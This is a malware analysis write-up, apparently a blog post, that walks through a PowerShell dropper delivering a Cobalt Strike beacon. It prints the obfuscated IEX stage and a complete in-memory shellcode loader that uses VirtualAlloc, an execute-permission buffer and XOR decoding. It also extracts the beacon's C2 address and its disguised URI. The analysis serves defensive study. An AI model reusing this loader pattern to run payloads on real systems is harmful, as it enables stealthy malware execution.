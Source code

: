 ```yaml
---
title: "Cobalt Strike Beacon Dropper Static Analysis"
categories:
  - Malware Analysis
toc: true
---
```


Cobalt Strike, which was originally developed as a legitimate security tool used for adversary emulation by Red Teams, has become a double-edged sword security. Malicous actors have cracked the software, since then it's been abused by adversaries ranging from hacktivists to APTs to fufill their needs. This is article is an analysis of the PowerShell script that leads to execution of a Cobalt Strike beacon.  

## Discovery

I recently discovered this malicious PowerShell script from a [Twitter post by @xorJosh](https://twitter.com/xorJosh/status/1655905247334735878). In his tweet he described an Oracle related service was exploited to download and execute a PowerShell script.

[![1](/assets/images/CobaltStrikeBeaconAnalysis1/1.png)](/assets/images/CobaltStrikeBeaconAnalysis1/1.png){: .full}

The malware sample mentioned can be found on [MalwareBazaar](https://bazaar.abuse.ch/sample/9c9e8841d706406bc23d05589f77eec6f8df6d5e4076bc6a762fdb423bfe8c24/). Lets download this ourselves and have a look!

## Static Analysis (Stage 0)

```ruby
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAA/+y9Wa/qSrIu+rzrV8yHLa21xNo1wBhjjrSla2wwxh09mDqlkjHgBtw3YM49//1GZBoGY865VtXW1rkPV3dKUwyMnU1kNF9ERqSXp+I/lkXmO4UeH0/f/mNzynI/jr4xf/nLuYycAv/GP/7hnop/JFns/MM+HrNTnn/7X3/5t
....QUA"));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

The PS script starts by defining a variable `s` to Base64 decoded binary data. Once we get to the end of the `s` variable, we see the following:

```ruby
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

This Gzip decompresses the variable `s`, and inputs into the StreamReader object. The contents of the StreamReader object are then passed as input into the IEX function, Invoke-Expression, which executes a given PowerShell command or script. From this, we can take a guess that `s` is gzip compressed, PowerShell code? Let's recreate this process of Base64 decoding & Gzip decompressing in CyberChef.

[![2](/assets/images/CobaltStrikeBeaconAnalysis1/2.PNG)](/assets/images/CobaltStrikeBeaconAnalysis1/2.PNG){: .full}

We can see that indeed, this was more PowerShell code to be executed. Let's download this locally and analyze this script

## Static Analysis (Stage 1)

```ruby
Set-StrictMode -Version 2

function func_get_proc_address {
  Param ($var_module, $var_procedure)   
  $var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
  $var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
  return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
  Param (
    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
    [Parameter(Position = 1)] [Type] $var_return_type = [Void]
  )

  $var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
  $var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
  $var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

  return $var_type_builder.CreateType()
}

If ([IntPtr]::size -eq 8) {
  [Byte[]]$var_code = [System.Convert]::FromBase64String('bnlicXZrqsZros8DIyMja64+ydzc3Guq/Gui4GdHIiPc8GKb05aBdUsnIyMjeWuq2tzzIyMjIyMjIyMj2yMjIy08mS0jlyruApsib+4Cd0tKUANTUUxEUUJOA0BCTU1MVwNBRgNRVk0DSk0DZ2xwA05MR
  ...OP84/')

  for ($x = 0; $x -lt $var_code.Count; $x++) {
    $var_code[$x] = $var_code[$x] -bxor 35
  }

  $var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
  $var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
  [System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

  $var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
  $var_runme.Invoke([IntPtr]::Zero)
}

```

The first defined function, `func_get_proc_address()`, basically retrieves the memory address of a specified procedure/function from a specified DLL. We can see this is used here, `$var_var = ... func_get_proc_address kernel32.dll VirtualAlloc), (...`. 

VirtualAlloc is a function of the Win32 API used to allocate a certain region of memory, to the calling process. We can see on the next line the parameters of this function, `$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)` (We'll get onto this `$var_code` variable in a second). Referencing the [documentation](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) on the VirtualAlloc function reveals:

[![3](/assets/images/CobaltStrikeBeaconAnalysis1/3.png)](/assets/images/CobaltStrikeBeaconAnalysis1/3.png){: .full}

We can now match up the corresponding parameters to the Microsoft documentation, but the one I'm most interested in is `flProtect`, which is set to `0x40`. `flProtect` defines the permissions given to an set allocation of memory.

[![4](/assets/images/CobaltStrikeBeaconAnalysis1/4.png)](/assets/images/CobaltStrikeBeaconAnalysis1/4.png){: .full}

We can see `0x40` is equivalent to `PAGE_EXECUTE_READWRITE`, which indicates the allocated memory is more than likely going to be used to execute malicous code. Let's uncover said code.

```ruby
If ([IntPtr]::size -eq 8) {
  [Byte[]]$var_code = [System.Convert]::FromBase64String('bnlicXZrqsZros8DIyMja64+ydzc3Guq/Gui4GdHIiPc8GKb05aBdUsnIyMjeWuq2tzzIyMjIyMjIyMj2yMjIy08mS0jlyruApsib+4Cd0tKUANTUUxEUUJOA0BCTU1MVwNBRgNRVk0DSk0DZ2xwA05MR
  ...OP84/')

  for ($x = 0; $x -lt $var_code.Count; $x++) {
    $var_code[$x] = $var_code[$x] -bxor 35
  }
```

Going through this line by line, we first see a conditional statement, `If ([IntPtr]::size -eq 8) {...`. `[IntPtr]::size` is an integer that defines the architecture type. In a 32-bit system this is equal to `4` and in a 64-bit system this is equal to `8`. This first line checks if the program is of a 64-bit architecture, if so it'll continue executing, otherwise it'll finish without doing anything.

The next line, `[Byte[]]$var_code = [System.Convert]::FromBase64String('bn...4/')`, Base64 decodes a massive string, and then stores it as a byte array. The for loop that follows this, iterates over each element of this byte array, performing the following operation - `$var_code[$x] = $var_code[$x] -bxor 35`. This just bitwise XORs each element of the array with decimal 35. Interesting...

We can make a conclusion here that the string `bnli...P84/` is XOR encrypted & Base64 encoded. Let's recreate this in CyberChef.

[![5](/assets/images/CobaltStrikeBeaconAnalysis1/5.png)](/assets/images/CobaltStrikeBeaconAnalysis1/5.png){: .full}

We can see the recongizable PE DOS header `MZ` identifiying this file as an Windows Executable. Let's download this file locally and move onto Stage 2!

## Static Analysis (Stage 2)

For confirmation, I used the Linux `file` command to verify I'm dealing with an .exe file.

[![6](/assets/images/CobaltStrikeBeaconAnalysis1/6.PNG)](/assets/images/CobaltStrikeBeaconAnalysis1/6.PNG){: .full}

Let's run the `strings` command, to see if any we can recover anything interesting.

[![7](/assets/images/CobaltStrikeBeaconAnalysis1/7.PNG)](/assets/images/CobaltStrikeBeaconAnalysis1/7.PNG){: .full} 

Interesting, we see `beacon.x64.dll`, certaintly looks dodgy right? [Googling this](https://www.cobaltstrike.com/blog/cobalt-strike-and-yara-can-i-have-your-signature/) reveals this is a common string found in Cobalt Strike beacons. Know we now for sure this a Cobalt Strike beacon, let's try extract the configuration. 

To do this task, I took advanatge of [this](https://github.com/DidierStevens/DidierStevensSuite/blob/master/1768.py) great tool.

[![8](/assets/images/CobaltStrikeBeaconAnalysis1/8.PNG)](/assets/images/CobaltStrikeBeaconAnalysis1/8.PNG){: .full}

From this we can clearly see the IP address is of the C2 server is `81.70.197[.]244` over port `4433` with the HTTPS protocol. We can also see the HTTP C2 communications are sent to a URI of `/jquery-3.3.1.min.js`, in attempt to masquerade as a jsquery request.

Searching this IP on VirusTotal we can see it's been flagged from 2/88 security vendors. Further basic OSINT discovers it to be hosted by the cloud provider [Tencet Cloud Computing Company Limited](https://cloud.tencent.com/)

[![9](/assets/images/CobaltStrikeBeaconAnalysis1/9.png)](/assets/images/CobaltStrikeBeaconAnalysis1/9.png){: .full}
